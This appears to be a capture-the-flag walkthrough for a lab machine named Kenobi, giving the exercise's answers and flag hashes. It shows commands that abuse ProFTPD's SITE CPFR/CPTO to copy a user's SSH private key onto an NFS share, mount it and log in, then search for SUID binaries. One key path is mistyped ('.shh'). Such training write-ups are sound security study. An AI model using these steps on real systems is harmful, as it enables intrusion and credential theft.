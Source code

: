 # Questions

1. Scan the machine with nmap, how many ports are open? 7
2. How many SMB shares are there? 3
3. What is the file can you see on the share? log.txt
4. What port is FTP running on? 21
5. What is the version (of ProFtpd)? 1.3.5
6. How many exploits are there for the ProFTPd running? 4
7. What is Kenobi's user flag (/home/kenobi/user.txt)? d0b0f3f53b6caa532a83915e19224899
8. What file looks particularly out of the ordinary? /usr/bin/menu
9. Run the binary, how many options appear? 3
10. What is the root flag (/root/root.txt)? 177b3cd8562289f37382721c28381f02
# Walkthrough

Start the Metasploit DB engine `msfdb init`. If it fails, make sure that the PostgreSQL service is running, if not run `systemctl start postgresql`.

start metasploit, `msfconsole` and create a new workspace `workspace -a kenobi`.

Run a version scan against the machine, we don't care about being detected and can use the following `db_nmap -sV --version-all 10.10.108.164` gives the answers to 1 and 4

Using nmap, we can enumarte SMB shares `db_nmap -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.108.164`

We're told to connect to the share as anonymous and give information on what we can see there `smbclient //10.10.108.164/anonymous` and `ls` gives us what we need.

We're told to run the following `db_nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.108.164` in order to see the mount location for the NFS.

we're told to connect to the machine over FTP `nc 10.10.108.164 21` which prints out the current version the ftp server is running on. We can then look this up in a DB of vulnerabilities `searchsploit "proftpd 1.3.5"`

Knowing the user of the share, we can copy their RSA key used to connect over ssh to a location on the RPC share that we'd be able to access  
``` FTP
SITE CPFR /home/kenobi/.shh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
we can now mount and copy the rsa key to our local machine
``` bash
mkdir /mnt/kenobiNFS  
mount 10.10.108.164:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.108.164
```

Now that we're connected to the remote machine as an authenticated user, we want to escalate privileges. First we can check for any exploitable SUID bianries `find / -type f -perm -04000 -ls 2>/dev/null`